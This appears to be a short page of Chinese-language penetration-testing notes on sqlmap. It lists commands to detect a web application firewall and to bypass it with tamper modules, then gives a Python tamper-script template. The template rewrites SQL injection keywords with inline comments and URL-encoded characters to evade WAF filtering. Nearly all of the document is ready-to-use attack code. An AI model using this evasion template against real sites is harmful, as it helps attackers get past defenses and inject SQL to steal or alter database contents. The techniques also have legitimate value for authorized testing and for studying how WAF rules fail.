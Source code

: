 ```python
1. 检测WAF种类
	sqlmap -u [URL] --identify-waf(--check-waf)
2. 绕过WAF
	sqlmap -u [URL] --tamper "模块名"
```

##### b. 模板

```python
from lib.core.enums import PRIORITY
import os
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    payload = payload.replace('AND', '/*!%23/*%0aAND*/')
    payload = payload.replace('DATABASE()', 'DATABASE/*$%^a*/()')
    payload = payload.replace('FROM', '/*!%23/*%0afrom*/')
    payload = payload.replace('UNION ALL', 'union/*!99999*/all')
    payload = payload.replace('SESSION_USER()', 'USER()')
    payload = payload.replace('USER()', 'USER/*////*/()')
    return payload
```

